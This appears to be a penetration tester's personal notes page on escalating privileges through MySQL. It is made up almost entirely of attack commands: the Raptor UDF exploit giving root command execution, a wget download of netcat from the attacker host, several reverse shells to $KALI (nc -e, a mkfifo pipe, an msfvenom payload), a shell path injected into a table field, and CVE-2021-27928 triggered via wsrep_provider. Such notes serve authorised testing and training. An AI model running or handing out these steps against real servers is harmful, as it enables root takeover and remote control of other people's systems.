 #### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---
DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

![[Pasted image 20220401112428.png]]

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection
![[Pasted image 20220324115631.png|1000]]

![[Pasted image 20221115145406.png]]

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u $USER -p$PASSWORD
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

![[Pasted image 20220324115412.png]]

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```

![[Pasted image 20220324115509.png]]

#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```

